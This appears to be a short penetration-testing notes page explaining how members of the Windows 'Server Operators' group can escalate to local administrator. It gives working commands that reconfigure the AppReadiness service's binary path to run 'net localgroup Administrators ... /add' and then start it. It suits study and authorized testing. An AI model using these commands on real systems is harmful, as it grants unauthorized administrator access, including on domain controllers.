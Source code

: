 # Server Operators

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Server Operators**</mark> group allows members to <mark style="color:purple;">**administer Windows servers**</mark> without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful <mark style="color:green;">`SeBackupPrivilege`</mark> and <mark style="color:green;">`SeRestorePrivilege`</mark> privileges and the ability to control local services.

As example we would use **AppReadiness** service because it has high privileges and starts as SYSTEM. But method could be used against other services too.

#### Querying the Service

```powershell
C:\> sc.exe qc AppReadiness
```

#### Checking Service Permissions with PsService

```powershell
C:\> c:\Tools\PsService.exe security AppReadiness
```

#### Modifying the Service Binary Path

```powershell
C:\> sc.exe config AppReadiness binPath= "cmd /c net localgroup Administrators ven17 /add"
```

```powershell
C:\> sc.exe start AppReadiness
```

#### Confirming Local Admin Group Membership

```powershell
C:\> net localgroup Administrators
```

